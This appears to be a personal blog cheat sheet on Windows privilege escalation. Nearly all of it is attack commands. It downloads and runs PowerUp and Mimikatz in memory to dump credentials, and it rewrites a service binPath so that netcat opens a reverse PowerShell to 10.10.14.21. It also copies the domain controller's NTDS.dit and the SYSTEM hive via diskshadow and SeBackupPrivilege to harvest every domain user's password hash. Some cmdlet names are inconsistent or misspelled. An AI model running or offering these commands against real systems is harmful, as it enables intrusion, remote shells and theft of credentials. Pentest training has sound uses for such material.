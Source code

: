 PrivEsc | Blogs By tobor

# PRIVESC

#### Priviledge Escalation

====================
WINDOWS
====================
**PowerUp:**

IEX(New-Object Net.WebClient).downloadString('<url>/PowerUp.ps1') ;Invoke-AllChecks

**Mimikatz:**

IEX(New-Object Net.WebClient).downloadString('<url>/MimiKatz.ps1') ;Invoke-Mimikatz -DumpCreds

**Unquoted Service Paths:**

wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

**Weak Permissions on Services Registry:**
**1.) Find explpoitable services**
.\accesschk -accepteula -uvwc *
**2.) Change Service ImagePath Value**

cmd /c sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell 10.10.14.21 8087"

**3.) Verify That Value**
reg query "HKLM\System\CurrentControlSet\Services\usosvc" /v "ImagePath"
** 4.) Start The Service To Execute Payload**
cmd /c sc stop usosvc
cmd /c sc start usosvc

When a domain controller is compromised we can make a copy or backup of the NTDS.dit file and obtain password hashes of all the domain users.

=================================
**DISKSHADOW NTDS.DIT METHOD**
**=================================**
**This requires backup and restore priviledges**
diskshadow
**set** context persistent nowriters
add volume c**:**  **alias** dmwong
create
expose %dmwong% z**:**

**Now importing the the dll files here**  https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug  **into powershell we can get our backup**

**REOSURCE**: https://github.com/giuliano108/SeBackupPrivilege
**# Import the following dll modules**
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
**# Create the backup and set permissions**
Set-SeBackupPriviledge
Get-SeBackupPriviledge
Copy-FileSeBackupPriviledge Z**:**\Windows\NTDS\ntds.dit C**:**\Temp\ntds.dit
Copy-FileSebackupPrivilege z**:**\Windows\NTDS\ntds.dit c**:**\temp\ndts.dit
reg save hklm\system c**:**\temp\system.bak
